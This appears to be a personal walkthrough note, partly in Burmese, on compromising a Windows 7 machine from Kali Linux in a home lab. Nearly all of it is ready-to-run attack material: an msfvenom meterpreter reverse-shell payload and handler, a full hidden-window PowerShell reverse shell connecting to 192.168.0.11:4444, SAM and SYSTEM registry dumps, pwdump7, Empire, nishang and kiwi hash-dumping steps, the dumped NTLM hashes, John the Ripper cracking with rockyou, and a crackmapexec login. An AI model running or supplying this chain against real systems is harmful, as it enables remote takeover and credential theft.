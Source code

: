 ```yaml
---
{"dg-publish":true,"permalink":"/exploit-from-kali/exploit-win7/","tags":["metasploit","encrypt-decrpyt","walkthrought"]}
---
```



```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f exe > reverse.exe 
```
```
msfconsole
```
```
use exploit/multi/handler
```
```
 set lhost 192.168.0.11
```
```
set payload windows/meterpreter/reverse_tcp
```
```
exploit
```

!!!BOOM!!!

![[Recording 20230919064714.webm]]



```reverse.bat
powershell -w hidden -nop -c $a='192.168.0.11';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
```



https://www.tarasco.org/security/pwdump_7/
cmd ကို R-click >> Run as administrator နဲ့ ဖွင့်@ပီးေတာ့ cd  
command ကို သံုး@ပီး pwdump7 directory ထဲ ကို ဝင်ထားပါတယ်။ @ပီးေတာ့မှ  
PwDump7.exe

```
reg save HKLM\SAM C:\Users\ykh\Desktop\sam
```
```
reg save HKLM\SYSTEM C:\Users\ykh\Desktop\system
```
----
```
load powershell
```
```
locate Invoke-PowerDump.ps1
```
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

meterpreter>powershell_import /usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

```maybefial
powershell_execute Invoke-PowerDump
```
try another way
```
locate Get-PassHashe.ps1
```
apt install nishang

```
powershell_import /usr/share/nishang/Gather/Get-PassHashes.ps1
```
```
powershell_execute Get-PassHashes
```
```
meterpreter > powershell_execute Get-PassHashes
[+] Command execution completed:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ykh:1000:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc:::
```
```
search credential_collector
```
```
use 0
```
```
set SESSION 2
```


```
background
```
```
load kiwi
```
```
lsa_dump_sam
```










Collecting hashes...
Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc
ykh:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2

nano winhashes
crack command
```shel
john --format=NT --wordlist=/usr/share/worlists/rockyou.txt winhashes
```


Test try to log in

```
crackmapexec smb 192.168.0.152 -u 'ykh' -p 'password' --sam
```
